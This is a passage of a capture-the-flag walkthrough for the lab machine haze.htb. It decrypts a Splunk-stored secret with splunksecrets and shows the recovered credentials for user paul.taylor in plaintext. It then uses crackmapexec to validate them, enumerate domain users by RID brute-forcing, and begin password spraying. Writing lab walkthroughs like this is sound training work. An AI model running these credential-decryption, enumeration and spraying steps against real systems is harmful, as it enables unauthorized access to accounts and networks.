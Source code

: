 **[ERROR SOLUTION:]{.mark} If you cannot run the previous COMMAND, do
next.**

**Try Adding to PATH Manually (Again):**

Even if source \~/.bashrc is failing, you can try setting the PATH
variable directly in your current terminal session:

**RUN:** **export PATH=\"\$HOME/.local/bin:\$PATH\"**

**RERUN:** **splunksecrets splunk-decrypt \--splunk-secret
splunk_secret.txt \--ciphertext
\'\$7\$ndnVlcPhF4lQgPhPu7Yz1pvGm66NkoPPyCLn+qt1qyojs4QU+hkteemWQGuuTKDVlwB08pY=\'**

**11.**INFO: Take **USER** from **STEP 8** and **PASSWORD** from **STEP
10**

**RUN:** **crackmapexec smb haze.htb -u \"paul.taylor\" -p
\"Ld@p_Auth_Sp1unk@2k24\"**

**[USER + PASSWORD is correct!]{.mark}**

![](images/media/image15.png){width="6.327083333333333in"
height="0.4076388888888889in"}

**///-User-Enumeration-/////////////////////////////////////////////////////////////////////////**

**11.1** INFO: Get infos on **HOSTS, SERVICES, SHARES**

**RUN:** **crackmapexec smb haze.htb -u \"paul.taylor\" -p
\"Ld@p_Auth_Sp1unk@2k24\" \--rid-brute \| grep SidTypeUser**

![](images/media/image16.png){width="6.288888888888889in"
height="1.1041666666666667in"}

**[WinRM Login not possible with paul.taylor credentials!]{.mark}**

**12.** INFO: Try PASSWORD SPRAYING on all other USERS

**INFO:** PASSWORD SPRAYING means, to try the same PASSWORD on different
USER ACCOUNTS

-Create a FILE usernames.txt and paste all found USERS from STEP 11 in
it.

![](images/media/image17.png){width="6.3in"
height="0.9145833333333333in"}
